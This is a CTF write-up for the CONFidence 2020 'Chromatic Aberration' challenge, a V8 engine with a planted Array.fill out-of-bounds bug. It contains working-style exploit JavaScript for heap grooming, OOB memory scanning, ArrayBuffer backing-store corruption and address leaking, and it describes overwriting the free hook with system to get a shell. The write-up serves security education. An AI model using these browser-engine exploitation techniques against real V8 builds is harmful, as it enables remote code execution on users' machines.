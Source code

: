 # CONFidence CTF 2020 Teaser Chromatic aberration


```
Chromatic Aberration
Points: 182
Solves: 20
Pwn our chrome for fun and profit.

Ok, it's not really Chrome, but it's close enough.

Let's say, it's chromatic

The memory limit is 64MB

nc chromatic-aberration.zajebistyc.tf 31004
6d87044f837a59e649f6d799143aede299a3103e764f8c46c921c3ee16da773a_chromatic_aberration.tar 103M
For people having problems with the above link, try this ones

6d87044f837a59e649f6d799143aede299a3103e764f8c46c921c3ee16da773a_chromatic_aberration.tar 103M
6d87044f837a59e649f6d799143aede299a3103e764f8c46c921c3ee16da773a_chromatic_aberration.tar 103M

```


In this CTF Question, author introduced a OOB read and arbitary write to the Array.fill of the V8 engine 

So, our exploitation will be very straightforward 

First, we will set up a Big int array with 0x33313131 as marking for arbitary write after we collect sufficent primitive with the OOB 


```js
var tarr = new BigUint64Array(8);
tarr[0] = 0x33313131n;
tarr[1] = 0x32323232n;
```

Then , we will setup an Array of ArrayBuffer and trigger garbage collection to move all of this items to the oldspace.

As mentioned in the doc of GC, its expected to trigger in anytime, this step can ensure the address leaked will be constant throughout the exploitation

This is essential for locating relative information and escalate to code execution (There is better way for this chall T_T) 

```js
var ab = []
for (var i = 0; i < 0x200; i++) {ab.push(new ArrayBuffer(0x1337));}
var oob_str_arr = ['AAAAAAAA','BBBBBBBB','CCCCCCCC']
gc();
gc();
console.log('[+] Locate relative postion of tarr')
```

We use the OOB read primitive to locate the relative postion of tarr from the oob_str_arr and locate one of the ArrayBuffer 

```js

var tarr_ix = 0;
for (var i = 0; i < 4000; i++) { 
    if(oob_str_arr[0].charCodeAt(-1620000-i) == 0x33& 
    oob_str_arr[0].charCodeAt(-1620000-i-1)  == 0x31& 
    oob_str_arr[0].charCodeAt(-1620000-i-2)  == 0x31& 
    oob_str_arr[0].charCodeAt(-1620000-i-3)  == 0x31)
    {
        tarr_ix=i;
        };
        }
console.log(tarr_ix);
console.log('[+] Locate array buffer')

var ab_ix = 0;
for (var i = 0; i < 4000; i++) { 
    if(oob_str_arr[0].charCodeAt(-1620000-i) == 0x13 & 
    oob_str_arr[0].charCodeAt(-1620000-i-1)  == 0x37)
    {
        ab_ix=i;
        };
        }
```

The above code used the memory layout as a features for locating the ArrayBuffer from the memory : 

![alt text](1.jpg)

Originally, we fetch the difference dynamically, but it turns out that this way not quite stable, so we just hardcode it with 650(found base on experiment)


```js
// 650 is the threshold calculate from running the code in debugger 
// weird 
diff = 650//tarr_ix-ab_ix;
console.log('[+] Difference : ')
console.log(diff)

```

Next, we will corrupt the size of the ArrayBuffer we obtained and get it back 


```js
tarr.fill(0x4000n,Math.floor(diff/8)-1,Math.floor(diff/8));

var corrupted_ix = 0;

console.log('[+] Now we corrupted one of the array size :)')
for (var i = 0; i < 0x200; i++){
    if (ab[i].byteLength!=0x1337)
    {
        corrupted_ix =i;
    }
    };

```

Our exploitation technique is simple, we will corrupt the backing store of the ArrayBuffer and point it to anywhere in the memory
![alt text](2.jpg)

However, from the deployed pointer compression [[1](https://blog.exodusintel.com/2020/02/24/a-eulogy-for-patch-gapping-chrome/)] ,[[2](https://docs.google.com/document/d/10qh2-b4C5OtSg-xLwyZpEI5ZihVBPtn1xwKBbQC26yI)], we cannot leak address directly

So, we will need to leak the upper part of the address 

While scanning the memory, we found the upper part of the address

![alt text](3.jpg)

The 0x0000007 pattern exist constantly throughout runtime, so we use the below code to scan the memory in order to retrieve the upper part of the address 


```js
var up_byte = 0;
var lo_byte = 0;

for (var i = 0; i < 10000; i++) { 
    if(oob_str_arr[0].charCodeAt(-1620000-i)  ==0 & 
       oob_str_arr[0].charCodeAt(-1620000-i-1)==0 & 
       oob_str_arr[0].charCodeAt(-1620000-i-2)==0 & 
       oob_str_arr[0].charCodeAt(-1620000-i-3)==7 & 
       oob_str_arr[0].charCodeAt(-1620000-i+1)>0 & 
       oob_str_arr[0].charCodeAt(-1620000-i+2)>0) {
           up_byte = oob_str_arr[0].charCodeAt(-1620000-i+2); 
           lo_byte = oob_str_arr[0].charCodeAt(-1620000-i+1);
            break;
            }
            }
```

Thanks to the pointer compression, the step for leaking the binary base is much easier now :) 

We can leak some pointer of the d8. Then,using the CXA handler to resolve the GI abort and overwrite the free hook with system and call console.log('sh') to get the shell  

Exploit with [pwn_with_logs.js](pwn_with_logs.js) will crash due to weird GC issues 	





